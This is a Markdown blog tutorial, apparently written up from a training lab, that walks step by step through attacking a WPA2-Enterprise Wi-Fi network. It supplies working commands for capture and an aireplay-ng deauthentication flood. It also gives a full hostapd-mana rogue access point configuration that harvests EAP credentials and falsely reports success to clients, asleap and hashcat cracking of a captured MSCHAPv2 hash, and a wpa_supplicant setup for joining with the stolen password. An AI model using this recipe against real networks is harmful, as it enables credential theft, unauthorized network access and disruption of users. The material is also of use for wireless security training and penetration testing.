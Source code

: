+++
title = "Attacking WPA2 Enterprise networks"
draft = false
description = "A step-by-step guide to attacking WPA2 enterprise networks using hostapd-mana and freeradius."
summary = "A step-by-step guide to attacking WPA2 enterprise networks using hostapd-mana and freeradius."
categories = ["Wireless Networking"]
date = 2025-04-21
tags = ["WPA2", "enterprise", "hostapd-mana", "freeradius"]
+++

## Introduction
In this article, we are going to attack the WPA2-MGT wireless enterprise network.
To attack WPA Enterprise we build our own rogue AP, but to do so, we need to create a certificate. We need to make the certificate with the same information as our target. To capture the information, we need to capture a handshake like in WPA2 attacks.

## Capturing Network Information
First, we need to enable monitor mode on our wireless interface:
```bash
sudo airmon-ng start wlan0
```
 
![Output of airmon-ng starting monitor mode on wlan0](Pasted%20image%2020250316164117.png)

Now we can scan for networks in all bands:
```bash
sudo airodump-ng wlan0mon --band abg
```

![Output of airodump-ng scanning for networks](Pasted%20image%2020250316165349.png)

Once we've identified our target network, we can focus our capture on it:
```bash
sudo airodump-ng wlan0mon -c 44 --bssid F0:9F:C2:71:22:16 -w wpa-mgt 
```

![Airodump-ng capturing packets from the target AP](Pasted%20image%2020250317075400.png)

In the same time on another terminal we also start a deauthentication attack using `aireplay-ng`:
```bash
sudo aireplay-ng wlan0mon --deauth 0 -a F0:9F:C2:71:22:16
```

![Aireplay-ng sending deauthentication packets](Pasted%20image%2020250317075800.png)

## Certificate Extraction
Using [`pcapFilter.sh`](https://gist.github.com/r4ulcl/f3470f097d1cd21dbc5a238883e79fb2) script to extract the `tls.handshake.certificate` from the cap file we captured using `airodump-ng`.

![Certificate extraction using pcapFilter.sh script](Pasted%20image%2020250317083757.png)
The certificate is now extracted and saved in `/tmp/certs` folder.

## Setting Up FreeRADIUS
Now we need to install `freeradius` server:
```bash
sudo apt install freeradius
```

Go to /etc/freeradius/3.0/certs and open `ca.cnf` and `server.cnf`:

![Directory listing of FreeRADIUS certificate folder](Pasted%20image%2020250317093614.png)

```bash
nano ca.cnf
```

![Editing ca.cnf configuration file](Pasted%20image%2020250317094300.png)

```bash
nano server.cnf
```

![Editing server.cnf configuration file](Pasted%20image%2020250317094937.png)

After that we do the following commands under `/etc/freeradius/3.0/certs` to generate `Diffie Hellman key` for `hostapd-mana`:
```bash
rm dh
```

```bash
make
```

![Generating Diffie-Hellman parameters](Pasted%20image%2020250317095344.png)

## Creating a Rogue Access Point
Next, create a file called `mana.eap_user` in `/etc/hostapd-mana/mana.eap_user` folder:
```bash
* PEAP,TTLS,TLS,FAST
"t" TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2 "pass" [2]
```

After that we create a rogue access point by creating a file called `mana-network.conf`:
```bash
# SSID of the AP
ssid=wifi-regional

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=44
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=a

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```

Start the Rogue AP:
```bash
sudo hostapd-mana mana-network.conf
```

![Hostapd-mana running the rogue access point](Pasted%20image%2020250317144847.png)

## Password Cracking
Using **asleap** to crack the password hash. We can copy/paste the output, starting with **asleap**, and append the wordlist to the -W parameter:

![Asleap tool cracking the captured credentials](Pasted%20image%2020250317155259.png)

**Credentials obtained:**
- Password: `bulldogs1234`
- User: `juan.tr` 
- Domain with user: `CONTOSO\juan.tr`

We can also use the `hashcat` for password cracking:
```bash
hashcat -a 0 -m 5500 juan.tr::::b74a163726ec4f0d75215c9de156ba47802b4cc355b7b7af:16e896c22be272dd /root/rockyou-top100000.txt --force
```

## Connecting to the Network
We connect to the AP using wpa_supplicant, first we create the conf file for the network.

Create network.conf:
```bash
network={
  ssid="wifi-regional"
  scan_ssid=1
  key_mgmt=WPA-EAP
  identity="CONTOSO\juan.tr" #domain\user
  password="bulldogs1234"
  eap=PEAP
  phase1="peaplabel=0"
  phase2="auth=MSCHAPV2"
}
```

Start connecting using wpa_supplicant:
```bash
wpa_supplicant -c network.conf -i wlan0
```

Get the IP address:
```bash
sudo dhclient wlan0
```

![Successfully obtaining an IP address with dhclient](Pasted%20image%2020250317163609.png)

